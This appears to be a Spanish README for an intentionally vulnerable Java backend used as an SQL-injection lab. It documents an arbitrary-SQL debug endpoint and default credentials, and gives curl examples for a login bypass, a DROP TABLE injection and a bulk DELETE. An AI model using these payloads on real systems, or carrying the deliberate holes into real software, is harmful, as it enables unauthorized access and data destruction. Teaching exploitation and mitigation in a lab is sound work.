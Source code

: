```markdown
# project_progral_backend

Este backend es un **laboratorio** para explorar vulnerabilidades de inyección SQL.

## 🔧 Requisitos
- Java 20
- Maven 3.x
- PostgreSQL (o usar la base de datos en la nube ya configurada)

## 🚀 Instalación y ejecución
1. Clona el repo:
   ```bash
git clone <url-del-repo>
cd project_progral_backend
```
2. Ajusta `src/main/resources/application.properties` si cambias la conexión.
3. Compila:
   ```bash
mvn clean package
```
4. Lanza la app:
   ```bash
java -jar target/backend-1.0.0.jar
```

Quedará en `http://localhost:8080/`.

## 📋 Endpoints
### Autenticación
- `POST /api/login`
    - Body JSON: `{ "username": "admin", "password": "admin123" }`
    - Respuesta: `OK` o `FAIL`

### Productos (CRUD)
1. `GET /api/products`
2. `GET /api/products/{id}`
3. `POST /api/products`  
   Body: `{ "name":"X","description":"Y","price":9.99 }`
4. `PUT /api/products/{id}`  
   Body igual al POST.
5. `DELETE /api/products/{id}`

### Búsqueda vulnerable
- `GET /api/search/products?name=<texto>`

### Debug SQL
- `POST /api/debug/query`  
  Body: `{ "sql": "TU SQL AQUÍ" }`
    - Retorna lista de filas o `{ "error": "mensaje" }`.

## 💥 Ejemplos de Inyección desde Postman o CURL

1. **Bypass login**
   ```bash
curl -X POST http://localhost:8080/api/login \
-H "Content-Type: application/json" \
-d '{ "username": "' OR '1'='1", "password": "foo" }'
```  
   Responde `OK` sin creds.

2. **Crear producto malicioso**
   ```bash
curl -X POST http://localhost:8080/api/products \
  -H "Content-Type: application/json" \
  -d '{ "name": "Test'); DROP TABLE products; --","description":"x","price":1 }'
```  
Esto podría eliminar la tabla `products`.

3. **Consulta directa**
   ```bash
curl -X POST http://localhost:8080/api/debug/query \
-H "Content-Type: application/json" \
-d '{ "sql": "SELECT count(*) FROM users" }'
```  
   Devuelve: `[ { "count": 1 } ]` o similar.

4. **Eliminar todo el catálogo**
   - Usando Postman: método POST, URL `/api/debug/query`, Body raw JSON:
     ```json
{ "sql": "DELETE FROM products WHERE 1=1" }
     ```

5. **Prueba de error sintaxis**
   ```bash
curl -X POST http://localhost:8080/api/debug/query \
  -H "Content-Type: application/json" \
  -d '{ "sql": "INVALID SQL" }'
```  
Retorna: `{ "error": "..." }`, pero el backend sigue vivo.

---

> **Nota**: este proyecto conserva todas las vulnerabilidades a propósito. ¡Disfruta aprendiendo cómo explotarlas y luego cómo mitigarlas!
```
